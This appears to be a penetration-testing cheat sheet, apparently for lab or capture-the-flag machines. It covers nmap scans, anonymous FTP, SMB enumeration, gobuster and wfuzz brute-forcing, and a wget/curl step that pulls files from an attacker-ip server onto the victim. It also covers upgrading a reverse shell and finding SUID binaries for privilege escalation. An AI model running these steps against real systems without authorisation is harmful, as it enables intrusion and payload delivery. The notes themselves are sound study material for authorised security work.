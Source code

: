 
- [Port Scanning](#psc)
- [21 - FTP Port](#ftp)
- [139/445 - Samba/SMB](#smb)
- [Directory Enumeration](#dir)
- [Pyhton server for file transmision](#ft)
- [Upgrade Shell](#us)
- [File searching](#fts)


# Port Scanning <a name='psc'></a>
## nmap
- `-sV` shows the version of the service running on each port.
- `-sC` uses additional scripts to gather more information.
- `-sS` stealth scan.
- `-p-` scans all ports. 
-  `-Pn-` Skip recognition phase.
- `-p <port>` scans only the specified port number. 
-  `--open` only displays open ports.
- `--min-rate` Specifies the minimum number of packets Nmap should send per second; increasing this number speeds up the scan. 
```bash
nmap  -sS -sC -sV -p21 10.129.42.253
```
### nmap scripts
**nmap** has the option of checking if there are some known vulnerabilities for the services versions that are being used at the machine. We just need to specify the port and the target ip.
```bash
nmap -p<port> --script vuln <target_ip>
```


# FTP Port <a name='ftp'></a>

```bash
# anonymous login
ftp <machine-ip>
# username anonymous
# password anonymous
```

# Samba/SMB Port <a name='smb'></a>

## SmbClient 
It is a network protocol that allows users to communicate with remote computers and servers to use their resources or share, open, and edit files.

- `-U` access as user.
- `-N` No password.
- `-L` This option allows you to look at what services are available on a server.
```bash
smbclient -U bob \\\\10.129.42.253\\users
    
smbclient -N -L \\\\10.129.117.14\\
```

# Directory Enumeration <a name='dir'></a>

## Gobuster
It is a command-line tool used for performing brute-force scans or directory and subdomain enumeration on a website.
- To find subdirectories:
````bash
#wordlist example:/usr/share/wordlists/dirb/big.txt
#wordlist example: /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
#machine example: 10.10.192.23 or http://10.10.192.23:80
#-q to don't print the errors
gobuster dir -u <machine-ip> -w <wordlist> -o gobuster.out -t 200
````

- To find subdomains:
```bash
#wordlist example: /usr/share/dnsrecon/subdomains-top1mil-20000.txt
#machine ip example: 10.10.192.25
gobuster vhost -w <wordlist> -u <machine-ip> -o gobuster.out
````

## wfuzz
It is a command-line tool used for performing brute-force scans or directory and subdomain enumeration on a website. Also, it can be useful for enumerate files with an specific extension.
- To find subdirectories:
```bash
#wordlist example:/usr/share/wordlists/dirb/big.txt
#machine example: 10.10.192.23
#-c print with colours
#--hc 404 don't print errors
wfuzz -c --hc 404 -w <wordlist> http://<machine-ip>/FUZZ
```

- To find common files:
```bash
#wordlist example:/usr/share/wordlists/dirb/big.txt
#machine example: 10.10.192.23
#-c print with colours
#--hc 404 don't print errors
wfuzz -c --hc 404 -w <wordlist> http://<machine-ip>/FUZZ.php
```


# Python server for file transmision<a name="ft"></a>

```bash 
# on the attacker machine
python3 -m http.server 8081

# on the victim machine
wget http://<attacker-ip>:<port>/<file>
curl http://<attacker-ip>:<port>/<file> -o <output-file>
```


# Upgrade Shell <a name='us'></a>

When we do a reverse shell, sometimes, we will need to upgrade our shell.

- Specifically, what it does is establish a new interactive terminal with advanced features, such as full control of function keys, command history, and the ability to use commands like Ctrl+C and Ctrl+Z. This can be useful in situations where greater interactivity is needed in a limited shell session.

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
# we need to *restart* to apply the changes, so we do:  
CTRL+Z  
stty raw -echo; fg  
reset xterm
export TERM=xterm
export SHELL=bash
```

# File searching <a name='fs'></a>

## find

Parameters:
- `-name <pattern>`: Matches files or directories with a specific name pattern.
- `-type <type>`: Matches files or directories of a specific type (e.g., `f` for regular files, `d` for directories, `l` for symbolic links).
- `-size <size>`: Matches files based on their size. For example, `+10M` matches files larger than 10 megabytes.
- `-mtime <time>`: Matches files based on their modification time. For example, `-mtime -7` matches files modified within the last 7 days.
```bash
# Use 2>/dev/null if you don't want to see errors output
find [path] [expression] 2>/dev/null
```

Also,  *find* can be useful to find files with the SUID bit, which allows us to run the file with a higher privilege level than the current user.
```bash
# Use 2>/dev/null if you don't want to see errors output
find / -perm -u=s -type f 2>/dev/null
```


